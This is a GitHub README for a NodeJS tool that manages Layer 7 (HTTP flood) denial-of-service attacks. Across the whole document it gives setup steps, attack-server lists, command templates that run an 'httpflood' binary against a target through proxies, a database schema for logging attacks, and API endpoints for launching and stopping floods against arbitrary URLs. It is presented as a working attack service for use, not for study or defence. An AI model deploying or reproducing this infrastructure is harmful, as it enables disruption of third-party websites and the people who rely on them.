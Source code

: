<h2>NodeJS API Manager for Layer 7 attacks</h2>

<h3>Coded by forky (tg: @yfork)</h3>

<h4>This API is very secure and fast (takes 2x the ping between the API and the backend, i.e. the ping is 60ms it will take only 120ms to launch the attack)</h4>


<h1>Installation:</h1>

```sh
curl -sL https://deb.nodesource.com/setup_16.x | sudo bash -
sudo apt -y install nodejs
npm i express mysql
```

<h1>Setup:</h1>

<h3>Update servers.json</h3><br>

```json
{
    "1": {
        "name": "1",
        "ip": "1.1.1.1",
        "port": 3000
    },
    "2": {
        "name": "2",
        "ip": "2.2.2.2",
        "port": 3000
    }
}
```

<h3>Update commands.json</h3><br>

```json
{
    "HTTPGET": "screen -dmS attack_${attack_id} ./httpflood ${target} ${duration} POST proxies.txt",
    "HTTPPOST": "screen -dmS attack_${attack_id} ./httpflood ${target} ${duration} POST proxies.txt"
}
```

<h3>Update settings.json</h3><br>

```json
{
    "database": {
        "host": "localhost",
        "user": "DATABASE_USER",
        "password": "DATABASE_PASSWORD",
        "database": "DATABASE_NAME"
    },
    "socket_token": "SECRET_TOKEN", 
    "max_attacksn": 15,
    "api_port": 3000
}
```

<h3>Update client.js:</h3><br>

```js
const socket_port = 3000;
const socket_token = "SECRET_TOKEN"; //your secret token to protect the TCP connection
const allowed_ips = ['1.1.1.1']; //the API server IP
```

<h3>Setup the Database</h3><br>

```sql
CREATE DATABASE manager;

use manager;

CREATE TABLE `attacks` (
    `id` int(11) NOT NULL,
    `server` varchar(300) DEFAULT NULL,
    `target` text DEFAULT NULL,
    `duration` int(11) NOT NULL,
    `method` varchar(255) DEFAULT NULL,
    `date_sent` int(11) DEFAULT NULL,
    `stopped` int(11) NOT NULL DEFAULT 0,
    `attack_id` int(11) DEFAULT NULL
);

ALTER TABLE `attacks` ADD PRIMARY KEY (`id`);

ALTER TABLE `attacks` MODIFY `id` int(11) NOT NULL AUTO_INCREMENT;
```

## After that, upload client.js to the attack servers and upload api.js, servers.json, commands.json and settings.json to the API server

### Reverse Proxy

Making a reverse proxy using Nginx to use your API is recommended:

```conf
server {
    listen 80;
    server_name api.yourdomain.com;
    location /api {
        proxy_pass http://backend:3000/api;
    }
}
```

Replace `'http://backend:3000/api'` with your API server URL

### Using the API

Send a GET request to the API using the required fields

GET `https://api.yourdomain.com/api/attack?target=https://website.com&duration=120&method=HTTPGET&server=1`

You can stop the attacks by sending a GET request to the API using the attack ID

GET `https://api.yourdomain.com/api/stop?attack_id=[id]`

You can also view all running attacks and server usage by sending a GET request to the API

GET `https://api.yourdomain.com/api/status`

You can also stop all the attacks sending a GET request to the API

GET `https://api.yourdomain.com/api/stop_all`
